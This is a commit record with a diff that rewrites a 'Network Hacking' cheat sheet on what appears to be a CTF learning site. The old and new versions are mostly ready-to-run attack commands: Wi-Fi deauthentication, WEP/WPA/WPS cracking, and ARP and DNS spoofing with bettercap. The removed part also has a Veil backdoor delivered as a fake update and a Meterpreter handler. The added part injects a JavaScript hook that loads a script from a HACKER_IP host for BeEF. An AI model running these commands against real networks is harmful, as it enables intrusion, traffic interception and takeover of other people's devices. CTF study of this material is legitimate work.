

Before and after one commit to ctf-roadmap/ctf-roadmap.github.io, a plain HTML site: page networking/index.html in a window 1280 px wide. Shown: the part 283-2046 px from the top of the page at 73% size. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Deployed  with MkDocs version: 1.2.1

```diff
--- a/networking/index.html
+++ b/networking/index.html
@@ -69,21 +69,27 @@
                 <ul class="current">
                     <li class="toctree-l1 current"><a class="reference internal current" href="./">Networking</a>
     <ul class="current">
-    <li class="toctree-l2"><a class="reference internal" href="#pre-connection-attack">Pre-Connection Attack</a>
+    <li class="toctree-l2"><a class="reference internal" href="#information-gathering">Information Gathering</a>
     </li>
-    <li class="toctree-l2"><a class="reference internal" href="#gaining-access">Gaining Access</a>
+    <li class="toctree-l2"><a class="reference internal" href="#exploitation-stage">Exploitation Stage</a>
         <ul>
     <li class="toctree-l3"><a class="reference internal" href="#wep-cracking">WEP Cracking</a>
     </li>
     <li class="toctree-l3"><a class="reference internal" href="#wpawpa2-cracking">WPA/WPA2 Cracking</a>
+        <ul>
+    <li class="toctree-l4"><a class="reference internal" href="#wps-enabled">WPS Enabled</a>
+    </li>
+    <li class="toctree-l4"><a class="reference internal" href="#wps-disabled">WPS Disabled</a>
     </li>
         </ul>
     </li>
-    <li class="toctree-l2"><a class="reference internal" href="#post-connection-attack">Post-Connection Attack</a>
+        </ul>
+    </li>
+    <li class="toctree-l2"><a class="reference internal" href="#post-exploitation-stage">Post-Exploitation Stage</a>
         <ul>
-    <li class="toctree-l3"><a class="reference internal" href="#arp-dns-spoofing">ARP &amp; DNS Spoofing</a>
+    <li class="toctree-l3"><a class="reference internal" href="#mitm-basics">MITM Basics</a>
     </li>
-    <li class="toctree-l3"><a class="reference internal" href="#spoofing-exploit-use-case">Spoofing Exploit Use Case</a>
+    <li class="toctree-l3"><a class="reference internal" href="#mitm-code-injection">MITM &amp; Code Injection</a>
     </li>
         </ul>
     </li>
@@ -124,134 +130,93 @@
             <div class="section">
 
                 <h1 id="network-hacking">Network Hacking</h1>
-<h2 id="pre-connection-attack">Pre-Connection Attack</h2>
-<pre><code class="language-bash"># change MAC addr
-ifconfig {iface} down
-ifconfig {iface} hw ether {atk_mac_addr}
-ifconfig {iface} up
+<h2 id="information-gathering">Information Gathering</h2>
+<pre><code class="language-bash"># alter mac address
+ifconfig IFACE down
+ifconfig IFACE hw ether MAC_ADDR
+ifconfig IFACE up
 
-# set monitor mode
-iwconfig {iface}
+# set up wifi interface to sniff packets
+ifconfig IFACE down
 airmon-ng check kill
-iwconfig {iface} mode monitor
+iwconfig IFACE mode monitor
+ifconfig IFACE up
 
-# busy network -&gt; run packet sniffing
-airodump-ng {iface}
-airodump-ng --bssid {wap_mac_addr} --channel {channel} --write {output_file} {iface}
+# discover wifi boxes
+airodump-ng IFACE
 
-# iddle network -&gt; run fake authentication + packet injection
-airodump-ng --bssid {wap_mac_addr} --channel {channel} {iface}
-aireplay-ng --fakeauth 0 -a {wap_mac_addr} -h {atk_mac_addr} {iface}
-
-# deauthentication attack
-airodump-ng --bssid {wap_mac_addr} --channel {channel} {iface}
-airodump-ng --deauth {seconds} -a {wap_mac_addr} -c {target_mac_addr} {iface}
+# packet sniffing
+airodump-ng --bssid BSSID --channel CHANNEL --write sniff IFACE
 </code></pre>
-<h2 id="gaining-access">Gaining Access</h2>
+<h2 id="exploitation-stage">Exploitation Stage</h2>
 <h3 id="wep-cracking">WEP Cracking</h3>
-<pre><code class="language-bash"># cracking with packets sniffing
-aircrack-ng {output_file.cap}
-
-# cracking with ARP replay
-aireplay-ng --arpreplay -b {wap_mac_addr} -h {atk_mac_addr} {iface}
-aircrack-ng {arpreplay.cap}
+<pre><code class="language-bash"># recover bssid password from sniff capture
+aircrack-ng sniff.cap
 </code></pre>
 <h3 id="wpawpa2-cracking">WPA/WPA2 Cracking</h3>
-<pre><code class="language-bash"># identify WPS wap
-wash --interface {iface}
-reaver --bssid {wap_mac_addr} --channel {channel} --interface {iface} -vvv --no-associate
-aireplay-ng --fakeauth 30 -a {wap_mac_addr} -h {atk_mac_addr} {iface}
+<h4 id="wps-enabled">WPS Enabled</h4>
+<pre><code class="language-bash"># check for wifi boxes using WPS
+wash --interface IFACE
 
-# cracking with capturing the handshake
-aireplay-ng --deauth 4 -a {wap_mac_addr} -c {target_mac_addr} {iface}
-airodump-ng --bssid {wap_mac_addr} --channel {channel} --write {output_file} {iface}
-crunch {minx} {max} {symbols} -o {wordlist} -t {pattern}
-aircrack-ng {output_file} -w {wordlist}
+# brute force WPS
+reaver --bssid BSSID --channel CHANNEL --interface IFACE -vvv --no-associate
 
-# optimize handshake cracking with PMKs
-airolib-ng {db} --import passwd {wordlist}
-echo {wap_name} &gt; {file} &amp;&amp; airolib-ng {db} --import essid {file}
-airolib-ng {db} --batch
-aircrack-ng -r {db} {output_file_file}
+# associate with the WPS bssid
+aireplay-ng --fakeauth 30 -a BSSID -h MAC_ADDR IFACE
+</code></pre>
+<h4 id="wps-disabled">WPS Disabled</h4>
+<pre><code class="language-bash"># handshake sniffing
+airodump-ng --bssid BSSID --channel CHANNEL --write handshake IFACE
 
-# optimize handshake cracking using GPU
-hashcat -I
-hashcat -m 2500 -d {gpu_device} {output_file.hccapx} {wordlist}
+# disconnect a client from its bssid to force handshake to be resent
+aireplay-ng --deauth 5 -a BSSID -c CLIENT IFACE
+
+# crack the handshake using a wordlist
+aircrack-ng handshake.cap  -w WORDLIST
 </code></pre>
-<h2 id="post-connection-attack">Post-Connection Attack</h2>
-<h3 id="arp-dns-spoofing">ARP &amp; DNS Spoofing</h3>
-<pre><code class="language-bash"># discover connected clients
-netdiscover -r {net/mask}
-zenmap
+<h2 id="post-exploitation-stage">Post-Exploitation Stage</h2>
+<h3 id="mitm-basics">MITM Basics</h3>
+<pre><code class="language-bash"># discover LAN neighbors
+netdiscover -r IP_RANGE
 
-# MITM / ARP spoof
+# get more details about neighbors
+nmap ; zenmap
+
+# run a MITM attack
 echo 1 &gt; /proc/sys/net/ipv4/ip_forward
-arpspoof -i {iface} -t {target_ip} {wap_ip}
-arpspoof -i {iface} -t {wap_ip} {target_ip}
+bettercap -iface IFACE
+    &gt; caplets.show
 
-# create a bettercap caplet to automate ARP spoofing
-nano {script.cap}
-  &gt; net.probe on
-  &gt; net.recon on
-  &gt; set arp.spoof.fullduplex true
-  &gt; set arp.spoof.targets {target_ip}
-  &gt; arp.spoof on
-  &gt; set net.sniff.local true
-  &gt; net.sniff on
+    &gt; net.probe on
+    &gt; net.show
 
-# run bettercap to ARP spoof + HTTPS downgrade
-bettercap -iface {iface} -caplet {script.cap}
-  &gt; help {module}
-  &gt; caplets.show
-  &gt; hstshijack/hstshijack
+    &gt; set arp.spoof.fullduplex true
+    &gt; set arp.spoof.targets CLIENT
+    &gt; arp.spoof on
 
-# DNS spoof attack
-bettercap -iface {iface} -caplet {script.cap}
-  &gt; set dns.spoof.all true
-  &gt; set dns.spoof.domains {website, *.website}
-  &gt; dns.spoof on
+    &gt; set net.sniff.local true
+    &gt; set net.sniff.output sniff
+    &gt; net.sniff on
 
-# sniff with bettercap and analyze with wireshark
-bettercap -iface {iface} -caplet {script.cap}
-  &gt; set net.sniff.output {output_file.cap}
+    &gt; set dns.spoof.all true
+    &gt; set dns.spoof.domains example.com,*.example.com
+    &gt; dns.spoof on
 </code></pre>
-<h3 id="spoofing-exploit-use-case">Spoofing Exploit Use Case</h3>
-<pre><code class="language-bash"># create a backdoor
-cd Veil/config &amp;&amp; ./setup.sh --silent --force
-./veil.py
-  &gt; list
-  &gt; use 1
-    &gt; list
-    &gt; use 15 (reverse HTTPS)
-    &gt; set {option} {value}
-    &gt; generate
+<h3 id="mitm-code-injection">MITM &amp; Code Injection</h3>
+<pre><code class="language-js">/* first step is to create a JS script to be injected with MITM */
+var imported = document.createElement(&quot;script&quot;);
+imported.src = &quot;http://HACKER_IP:3000/hook.js&quot;
+document.head.appendChild(imported);
+</code></pre>
+<pre><code class="language-bash"># second step is to add this payload script into hstshijack caplet
+set hstshijack.payloads *:/PATH_TO_JS_SCRIPT
 
-# create a fake update in order to install the backdoor
-./evilgrade
-  &gt; show modules
-  &gt; configure {module}
-  &gt; show options
-  &gt; set {option} {value}
-  &gt; start
+# third step is to run bettercap with hstshijack caplet
+bettercap -iface IFACE
+    &gt; hstshijack/hstshijack
 
-# spoof the product owner website for the fake update
-bettercap -iface {iface} -caplet {script.cap}
-  &gt; set dns.spoof.all true
-  &gt; set dns.spoof.targets {website}
-  &gt; dns.spoof on
-
-# wait for backdoor incomming connection
-msfconsole
-  &gt; use exploit/mullti/handler
-  &gt; set PAYLOAD {reverse_https_path}
-  &gt; exploit
-
-# use meterpreter commands to hack the target
-&gt; help
-&gt; download {file}
-&gt; upload {file}
-&gt; execute -f {script}
-&gt; shell
+# fourth and last step is to run beef to hook the target browser
+beef-xss
 </code></pre>
 
             </div>
```
Also changed, not shown: index.html (+1 -1 lines), search/search_index.json (+1 -1 lines), sitemap.xml (+8 -8 lines), 2 other files.
